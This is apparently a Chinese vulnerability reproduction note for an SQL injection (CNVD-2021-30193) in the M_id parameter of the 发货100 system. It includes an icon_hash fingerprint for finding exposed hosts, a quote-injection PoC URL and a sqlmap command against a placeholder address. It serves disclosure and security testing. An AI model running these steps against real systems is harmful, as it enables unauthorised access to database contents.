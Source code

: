 # 

# 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
发货100
```

## 网络测绘

```
icon_hash="1420424513"
```

## 漏洞复现

主页面如下

![](./images/202202170900267.png)

使用POC

```plain
/?M_id=1%27&type=product
```

![](./images/202202170900051.png)

数据库出现报错, 使用Sqlmap注入

```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```

![](./images/202202170900124.png)
